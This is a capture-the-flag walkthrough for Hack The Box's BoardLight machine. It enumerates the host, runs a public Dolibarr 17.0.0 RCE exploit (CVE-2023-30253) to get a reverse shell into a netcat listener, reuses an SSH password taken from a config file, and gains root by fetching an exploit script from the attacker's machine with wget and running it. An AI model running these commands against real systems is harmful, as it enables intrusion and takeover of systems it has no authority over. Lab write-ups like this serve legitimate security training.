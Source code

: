 # HTB Machine Walkthrough: BoardLight
---
> [!IMPORTANT]  
> **Please use this as a hint or guide if you're blocked at some point of this machine, i make those files for myself and to help some friends that are also doing those machines.**


> [!NOTE]  
> **Try to get as far as you can by yourself or you will never learn to make machines alone. Hope you the best and happy hacking <3.**
--- 
## 1. Execute a Fast Nmap Scan on the Provided IP

## 1. Recognition

  

First, verify if the machine is reachable by pinging it:

```bash

ping  $Lab_IP -c 1

```

Next, start enumerating the machine using Nmap:

```bash

nmap  -sV -sC -n -Pn --min-rate 3000 $Lab_IP -vvv

```

Upon navigating to the IP address in a browser, a webpage welcomes us to **BOARDLIGHT** maintained by Board.htb. To discover subdomains, use FFUF:

```bash

ffuf -H  "FUZZ.board.htb" -u "http://board.htb/" -w /usr/share/wordlists/dirb/big.txt

```

A subdomain `crm` is identified. Navigating to `http://crm.board.htb/` reveals a Dolibarr login page.

## 2. Exploit Phase

  

Dolibarr, an ERP and CRM software, is running version 17.0.0. Searching for exploits, we find a [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) exploit wich is a RCE that can be exploited via python program.

First, start a netcat listener in the port you desire

```bash

nc -lvnp $PORT

```

Execute the exploit to get a reverse shell:

```bash

python3 exploit.py http://crm.board.htb admin admin $Your_Machine_IP $PORT

```

We gain shell access as `www-data`.

## 3. Privilege Escalation

Explore the directories, and locate the `conf.php` file under `~/html/crm.board.htb/htdocs/conf` containing an SSH password. Use this to SSH into the user `larissa`:

```bash

ssh larissa@$Lab_IP

```

As `larissa`, navigate to `cd /home/larissa/` to find the `user.txt` flag.

To escalate privileges, download a local privilege escalation exploit:


```bash

python3 -m http.server 8080

```

On the target machine:


```bash

wget  http://YourMachine_IP:8080/exploit.sh

chmod  777  exploit.sh

./exploit.sh

```

Once in, as a root, execute a bash terminal by using the following command:

```bash
bash
```

Finally just navigate to `/root` and retrieve the flag, saved as `root.txt`

```bash
cd /root
cat root.txt
```
---
**Congratulations: Machine completed**
---
